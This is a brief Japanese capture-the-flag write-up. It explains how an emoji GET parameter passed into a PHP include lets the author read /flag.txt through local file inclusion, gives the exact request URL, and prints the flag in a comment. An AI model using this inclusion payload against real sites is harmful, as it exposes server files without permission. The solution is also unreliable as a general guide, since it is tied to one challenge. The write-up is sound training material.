

# Writeup

[http://include.sf.ctf.so/](http://include.sf.ctf.so/) にアクセスすると、以下のようなメッセージが表示される。

GETパラメータに 🤯 とあるので、`http://include.sf.ctf.so/?%F0%9F%A4%AF=hoge`のようにして`@include`に任意の文字列を挿入できる。

Local File Inclusion(LFI) によって`/flag.txt`を読む。

* http://include.sf.ctf.so/?%F0%9F%A4%AF=/flag.txt

にアクセスすると、フラグが表示された。

<!-- we{695ed01b-3d31-46d7-a4a3-06b744d20f4b@1nc1ud3_/etc/passwd_yyds!} -->